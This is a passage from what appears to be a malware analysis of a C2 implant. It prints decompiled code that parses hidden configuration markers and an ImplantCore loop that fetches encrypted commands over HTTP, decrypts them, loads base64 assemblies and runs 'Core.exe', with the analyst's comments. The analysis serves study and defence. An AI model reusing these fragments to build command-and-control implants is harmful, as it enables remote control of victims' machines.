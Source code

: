 ```java
    string Jitter = new Regex("JITTER2025(.*)5202RETTIJ").Match(input).Groups[1].ToString();
    string Key = new Regex("NEWKEY8839394(.*)4939388YEKWEN").Match(input).Groups[1].ToString();
    string stringIMGS = new Regex("IMGS19459394(.*)49395491SGMI").Match(input).Groups[1].ToString();
    Program.ImplantCore(baseURL, RandomURI, stringURLS, KillDate, Sleep, Key, stringIMGS, Jitter);
  }
```

### ImplantCore()
A long function used to coordinate the C2 flow based on the incoming input over HTTP. Just a few code snippets commented by me are reported here. 
The C2 decrypt, parse and execute the provided cmd using an if-else condition. A new exe file appears in the flow: 'Core.exe'.


```java
Program.pKey = Key; // set the enc/decryption key from Primer()

cmd = Program.GetWebRequest((string) null).DownloadString(Program.UrlGen.GenerateUrl()); // read the HTTP request body
str1 = Program.Decryption(Key, cmd).Replace("\0", string.Empty); // decrypt and obtain the plaintext command

if (str1.ToLower().StartsWith("multicmd"))
          {
            string str2 = str1.Replace("multicmd", "");
            string[] separator = new string[1]
            {
              "!d-3dion@LD!-d" // multicmd separator
            };
            foreach (string input in str2.Split(separator, StringSplitOptions.RemoveEmptyEntries))
            {
            
            // different command options and execution paths
            /* - I.E.
            Assembly.Load(Convert.FromBase64String(Regex.Replace(cmd, "loadmodule", "", RegexOptions.IgnoreCase)));
            Program.Exec(stringBuilder1.ToString(), Program.taskId, Key);
            */
            
            }
else {
             Program.rAsm(string.Format("run-exe Core.Program Core {0}", (object) cmd));
             stringBuilder1.AppendLine(newOut.ToString());
             StringBuilder stringBuilder2 = newOut.GetStringBuilder();
             stringBuilder2.Remove(0, stringBuilder2.Length);
             if (stringBuilder1.Length > 2)
                Program.Exec(stringBuilder1.ToString(), Program.taskId, Key); 
             stringBuilder1.Length = 0;
            }         
```
